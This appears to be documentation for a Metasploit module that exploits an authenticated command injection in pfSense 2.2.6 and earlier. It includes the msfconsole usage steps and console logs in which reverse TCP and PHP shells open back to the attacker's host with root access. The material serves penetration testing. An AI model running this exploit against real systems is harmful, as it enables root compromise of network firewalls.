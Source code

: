 ## Description

  This module exploits a vulnerability in pfSense version 2.2.6 and before which allows an authenticated user to execute arbitrary operating system commands as root.

## Vulnerable Application

  This module has been tested successfully on version 2.2.6-RELEASE, 2.2.5-RELEASE, and 2.1.3-RELEASE

  Installers:

  * [pfSense 2.2.6-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.2.6-RELEASE-amd64.iso.gz)
  * [pfSense 2.2.5-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.2.5-RELEASE-amd64.iso.gz)
  * [pfSense 2.1.3-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.1.3-RELEASE-amd64.iso.gz)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/pfsense_graph_injection_exec`
  3. Do: `set RHOST [IP]`
  4. Do: `set USERNAME [username]`
  5. Do: `set PASSWORD [password]`
  6. Do: `set LHOST [IP]`
  7. Do: `exploit`

## Scenarios

### pfSense Community Edition 2.2.6-RELEASE

```
msf exploit(unix/http/pfsense_graph_injection_exec) > use exploit/unix/http/pfsense_graph_injection_execmsf exploit(unix/http/pfsense_graph_injection_exec) > set RHOST 2.2.2.2
RHOST => 2.2.2.2
msf exploit(unix/http/pfsense_graph_injection_exec) > set LHOST 1.1.1.1
LHOST => 1.1.1.1
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit 

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Detected pfSense 2.2.6-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (37543 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:42116) at 2018-01-01 17:17:36 -0600

meterpreter > sysinfo
Computer    : pfSense.localdomain
OS          : FreeBSD pfSense.localdomain 10.1-RELEASE-p25 FreeBSD 10.1-RELEASE-p25 #0 c39b63e(releng/10.1)-dirty: Mon Dec 21 15:20:13 CST 2015     root@pfs22-amd64-builder:/usr/obj.RELENG_2_2.amd64/usr/pfSensesrc/src.RELENG_2_2/sys/pfSense_SMP.10 amd64
Meterpreter : php/freebsd
meterpreter > getuid
Server username: root (0)
meterpreter > 
```

### pfSense Community Edition 2.1.3-RELEASE

```
msf > use exploit/unix/http/pfsense_graph_injection_exec
msf exploit(unix/http/pfsense_graph_injection_exec) > set RHOST 2.2.2.2
RHOST => 2.2.2.2
msf exploit(unix/http/pfsense_graph_injection_exec) > set LHOST 1.1.1.1
LHOST => 1.1.1.1
msf exploit(unix/http/pfsense_graph_injection_exec) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:3454) at 2018-01-01 15:49:38 -0600
uname -a

FreeBSD pfSense.localdomain 8.3-RELEASE-p16 FreeBSD 8.3-RELEASE-p16 #0: Thu May  1 16:19:14 EDT 2014     root@pf2_1_1_amd64.pfsense.org:/usr/obj.amd64/usr/pfSensesrc/src/sys/pfSense_SMP.8  amd64
```
